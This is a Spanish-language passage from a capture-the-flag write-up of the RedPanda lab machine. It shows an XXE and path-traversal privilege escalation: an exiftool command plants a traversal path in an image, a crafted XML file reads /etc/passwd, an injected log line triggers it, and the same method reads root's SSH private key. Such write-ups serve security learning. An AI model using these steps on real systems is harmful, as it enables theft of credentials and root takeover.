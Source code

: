 ```exiftool -Artist="../../../tmp/pwned" gato.jpg```
    <uri>/../../../../../../../../tmp/gato.jpg</uri>
    <views>0</views>
    <foo>&xxe;</foo>
  </image>
  <totalviews>0</totalviews>
</credits>
```

El contenido del archivo se asemeja a los dos que podemos encontrar en el directorio */credits/*, pero hemos escrito una entidad externa, que, ejecutda por root, nos mostrará en este caso el */etc/passwd* de la máquina víctima. Para compararlo, el archivo original de *damian* es el siguiente:

```xml
woodenk@redpanda:/tmp/hsperfdata_woodenk$ cat /credits/damian_creds.xml 
<?xml version="1.0" encoding="UTF-8"?>
<credits>
  <author>damian</author>
  <image>
    <uri>/img/angy.jpg</uri>
    <views>1</views>
  </image>
  <image>
    <uri>/img/shy.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/crafty.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/peter.jpg</uri>
    <views>0</views>
  </image>
  <totalviews>1</totalviews>
</credits>
```

El retroceso de directorios que vemos en el *uri* (como hemos visto en el ejemplo anterior, el *uri* coge la ruta de la imagen) tiene el mismo significado que anteriormente con el *pwned_creds.xml*. El ejecutable irá a buscar nuestra imagen maliciosa al directorio */opt/panda_search/src/main/resources/static/img*. Imaginemos ```/opt/panda_search/src/main/resources/static/gato.jpg```. Aquí no la va a encontrar, ya que nuestra foto estará en */tmp/* que es donde tenemos permisos de escritura. Por lo tanto deberemos hacer un *directory path traversal* para obtener el siguiente resultado:

```String fullpath = "/opt/panda_search/src/main/resources/static/../../../../../../../../tmp/gato.jpg;``` 

Por lo tando, despues de haber subido nuestra foto *gato.jpg* y *pwned_creds.xml * al directorio /tmp de la máquina víctima, quedará escribir una línea en el archivo redpanda.log con el siguiente aspecto:

```echo "200||10.10.14.12||Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36||/../../../../../../../../tmp/gato.jpg" > /opt/panda_search/redpanda.log```

<img src="/photos/2022-09-26-RedPanda-WriteUp/redpandalogMaliciouspayload.png" alt="drawing"  />

Una vez root interprete el XML (tardará un rato), podremos visualizar el */etc/passwd* en nuestro archivo *pwned_creds.xml*:

<img src="/photos/2022-09-26-RedPanda-WriteUp/pwned_credsPasswd.png" alt="drawing"  />

### Shell  

Ahora, para obtener una shell como root, como el puerto 22 está abierto, nos interesa listar su clave privada para posteriormente autenticarnos por *SSH*. Para ello, en vez de *file:///etc/passwd* pondremos *file:///root/.ssh/id_rsa*. Obtendremos la siguiente clave:

<img src="/photos/2022-09-26-RedPanda-WriteUp/pwned_credsIdRSA.png" alt="drawing"  />
```